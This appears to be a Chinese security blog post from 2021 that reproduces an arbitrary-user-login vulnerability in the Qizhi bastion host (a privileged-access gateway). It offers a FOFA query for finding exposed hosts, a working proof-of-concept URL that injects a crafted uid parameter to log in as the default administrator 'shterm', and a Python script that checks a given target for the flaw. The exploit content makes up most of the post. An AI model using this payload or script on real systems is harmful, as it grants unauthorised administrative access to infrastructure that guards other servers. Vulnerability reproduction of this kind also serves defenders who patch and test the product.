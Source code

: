 ```yaml
---
title: 齐治堡垒机任意用户登录
tags:
  - vuln
categories:
  - 漏洞复现
copyright: true
abbrlink: f8593b1e
date: 2021-07-12 21:33:54
---
```


![](https://z3.ax1x.com/2021/07/13/WFHmrV.jpg)

<!--more-->

### 齐治堡垒机存在任意用户登录漏洞

   齐治堡垒机存在任意用户登录漏洞，访问特定的URL即可获得后台权限

### 验证

fofa  `app="齐治科技-堡垒机"`

POC

```sqlite
http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

`shterm` 为缺省管理员账户。

审计员：

![img](https://z3.ax1x.com/2021/07/13/WF7zKP.png)



切换超管角色：

![img](https://z3.ax1x.com/2021/07/13/WFHpb8.png)

PY脚本

```python
import requests,sys,re,urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
# for url in  open("C:/1.txt","r"):
if len(sys.argv)<2:
        print("[+]Use: pyhton3 齐治科技-堡垒机.py http://ip:port")
        print("[+]Explain: HADESI")
        print("[+]============================")
        sys.exit()

url=sys.argv[1]
url1=url+"/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm"

res = requests.get(url=url1,verify=False)
# print (res.status_code)
if res.status_code == 200 :
    print(url1+">>>>>漏洞存在")
```

**Reference**

https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/Web%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E/%E9%BD%90%E6%B2%BB%E5%A0%A1%E5%9E%92%E6%9C%BA/%E9%BD%90%E6%B2%BB%E5%A0%A1%E5%9E%92%E6%9C%BA%20%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E6%BC%8F%E6%B4%9E.md